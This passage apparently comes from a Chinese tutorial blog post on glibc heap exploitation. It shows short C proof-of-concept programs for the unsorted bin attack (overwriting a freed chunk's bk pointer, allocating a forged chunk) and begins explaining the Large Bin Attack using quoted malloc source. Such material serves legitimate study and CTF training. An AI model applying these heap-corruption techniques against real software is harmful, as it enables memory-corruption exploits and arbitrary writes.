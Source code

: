 写bck->fd
```c
#include <stddef.h>
#include <stdlib.h>
#include <stdio.h>

int main()
{
    size_t* chunk1=malloc(0x410);
    size_t* fakechunk[0x20];
    malloc(0x10);
    free(chunk1);
    size_t*global_max_fast_addr =chunk1[1]+0x1cd0;
    chunk1[1]=chunk1[1]+0x1cd0-0x10;
    size_t* chunk2=malloc(0x410);
   
}
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/d8df63b5a42f4497b73388a407bb6f00.png)
申请到bck

```c
#include <stddef.h>
#include <stdlib.h>
#include <stdio.h>

int main()
{
    size_t* chunk1=malloc(0x410);
    size_t* fakechunk[0x20];
    malloc(0x10);
    free(chunk1);
    chunk1[1]=fakechunk;
    fakechunk[1]=0x20;
    size_t* chunk2=malloc(0x410);
    size_t* destchunk=malloc(0x10);
}
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/1c0ebfe97d0c40d39400ff65b3c75c74.png)
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/b9899954416f42cc906cb3516cdbc96e.png)


# Large Bin Attack
Large Bin Attack 就是通过修改位于 large bin 的 chunk 的 bk 或者 bk_nextsize ，然后让其它的 chunk 进入 large bin ，借助链表操作在目标地址处写入一个堆的地址。

glibc-2.30 之前，由于 chunk 链入 large bin 的过程中缺乏对 bk 和 bk_nextsize 指针的检查，因此可以 通过修改 bk 和 bk_nextsize 指针进行两处任意地址写。

- 加入的large chunk小于最小的会进入下面处理流程
```c
			  bck = bin_at (av, victim_index);
              fwd = bck->fd;
               assert ((bck->bk->size & NON_MAIN_ARENA) == 0);
if ((unsigned long) (size) < (unsigned long) (bck->bk->size))
                    {
                      fwd = bck;
                      bck = bck->bk;

                      victim->fd_nextsize = fwd->fd;
                      victim->bk_nextsize = fwd->fd->bk_nextsize;
                      fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
                    }
```